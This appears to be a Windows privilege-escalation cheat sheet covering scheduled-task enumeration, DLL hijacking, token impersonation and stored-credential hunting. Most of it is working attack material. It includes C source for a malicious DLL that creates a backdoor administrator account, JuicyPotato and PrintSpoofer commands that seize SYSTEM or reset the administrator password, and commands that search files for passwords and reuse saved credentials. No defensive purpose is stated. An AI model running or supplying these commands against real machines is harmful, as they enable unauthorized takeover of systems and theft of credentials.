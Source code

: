 #### Scheduled Tasks
```powershell
# List scheduled tasks
schtasks /query /fo LIST /v
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State

# Check task binary permissions
icacls "C:\path\to\task\binary.exe"
```

#### DLL Hijacking
```powershell
# Find potential DLL hijacking targets
Process Monitor (procmon.exe) - Filter for "NAME NOT FOUND" and "PATH ENDS WITH .dll"

# Create malicious DLL
#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /c net user hacker Password123! /add");
        system("cmd.exe /c net localgroup administrators hacker /add");
    }
    return TRUE;
}

# Compile DLL
x86_64-w64-mingw32-gcc -shared -o hijackme.dll hijackme.c
```

#### Token Impersonation
```powershell
# Check for SeImpersonatePrivilege or SeAssignPrimaryTokenPrivilege
whoami /priv

# Exploit with JuicyPotato (Windows 10 1809 & Windows Server 2019 before patch)
.\JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c net user administrator Hacked123" -t *

# Exploit with PrintSpoofer (Windows 10 & Windows Server 2019)
.\PrintSpoofer.exe -i -c cmd
```

#### Stored Credentials
```powershell
# Check for stored credentials
cmdkey /list

# Use stored credentials
runas /savecred /user:admin cmd.exe

# Check for credentials in files
findstr /si password *.txt *.ini *.config *.xml
dir /s *pass* == *cred* == *vnc* == *.config*
```
